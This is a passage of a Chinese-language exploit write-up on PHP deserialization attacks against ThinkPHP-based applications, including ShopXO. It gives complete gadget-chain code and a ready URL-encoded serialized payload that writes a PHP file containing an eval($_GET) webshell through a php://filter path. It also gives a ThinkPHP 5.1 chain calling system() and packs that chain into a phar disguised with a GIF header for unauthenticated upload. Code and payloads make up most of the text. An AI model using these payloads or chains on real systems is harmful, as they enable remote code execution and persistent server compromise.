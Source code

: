 foreach ($contents as $path => $object) { if (is\_array($object)) { $contents\[$path\] = array\_intersect\_key($object, $cachedProperties); } }

return $contents; }

public function getForStorage() { $cleaned = $this->cleanContents($this->cache);

return json\_encode(\[$cleaned, $this->complete\]); }

} class PhpRedis extends AbstractCache{ protected $client; protected $key = '1.php'; protected $expire = null;

public function \_\_construct($client){ $this->client = $client; } public function save() { $contents = $this->getForStorage(); $this->client->set($this->key, $contents);

if ($this->expire !== null) { $this->client->expire($this->key, $this->expire); } } } $file\_obj = new File(); $phpRedis\_obj = new PhpRedis($file\_obj); echo urlencode(serialize($phpRedis\_obj)); }

**base64**

input=O%3A40%3A%22League%5CFlysystem%5CCached%5CStorage%5CPhpRedis%22%3A6%3A%7Bs%3A9%3A%22%00%2A%00client%22%3BO%3A23%3A%22think%5Ccache%5Cdriver%5CFile%22%3A2%3A%7Bs%3A13%3A%22%00%2A%00writeTimes%22%3Bi%3A0%3Bs%3A10%3A%22%00%2A%00options%22%3Ba%3A6%3A%7Bs%3A6%3A%22expire%22%3Bi%3A1%3Bs%3A9%3A%22hash\_type%22%3Bs%3A3%3A%22md5%22%3Bs%3A4%3A%22path%22%3Bs%3A52%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3D.%2F%22%3Bs%3A12%3A%22cache\_subdir%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bb%3A0%3Bs%3A13%3A%22data\_compress%22%3Bb%3A0%3B%7D%7Ds%3A6%3A%22%00%2A%00key%22%3Bs%3A5%3A%221.php%22%3Bs%3A9%3A%22%00%2A%00expire%22%3BN%3Bs%3A11%3A%22%00%2A%00autosave%22%3Bb%3A0%3Bs%3A8%3A%22%00%2A%00cache%22%3Ba%3A0%3A%7B%7Ds%3A11%3A%22%00%2A%00complete%22%3Bs%3A32%3A%22PD9waHAgZXZhbCgkX0dFVFsxXSk7Pz4%3D%22%3B%7D

## shopxo

版本：TP5.1

效果：无需登录的文件上传+ 任意文件读取(控制文件头部) + phar反序列化

思路：

1.找到可控文件上传点

2.生成对应的phar文件

3.利用phar协议配合文件相关函数访问

**查看版本**

**编写poc**（网络搜索到tp5.1的反序列化poc）

<?php namespace think; use think\\facade\\Cookie; use think\\facade\\Session; class Request { protected $hook = \[\]; protected $config = \[\]; protected $filter; protected $param = \[\]; public function \_\_construct(){ $this->filter = 'system'; $this->param = \['calc.exe'\]; $this->hook = \['visible'=>\[$this,'isAjax'\]\]; $this->config = \['var\_ajax' => ''\]; } } abstract class Model{ protected $append = \[\]; private $data = \[\]; function \_\_construct() { $this->append = \['Th0r' => \['a'\]\]; $this->data = \['Th0r' => new Request()\]; } } namespace think\\model; use think\\Model; use think\\Request; class Pivot extends Model { } namespace think\\process\\pipes; use think\\model\\Pivot; class Pipes{} class Windows extends Pipes { private $files = \[\]; function \_\_construct(){ $this->files = \[new Pivot()\]; } } $o = new Windows(); echo urlencode(serialize($o)); //exit(-1); @unlink("phar1.phar"); $phar = new \\Phar("phar1.phar"); //后缀名必须为phar $phar->startBuffering(); $phar->setStub('gif89a'."<?php \_\_HALT\_COMPILER(); ?>"); //设置stub $phar->setMetadata($o); //将自定义的meta-data存入manifest $phar->addFromString("test.txt", "test"); //添加要压缩的文件 //签名自动计算 $phar->stopBuffering(); ?>
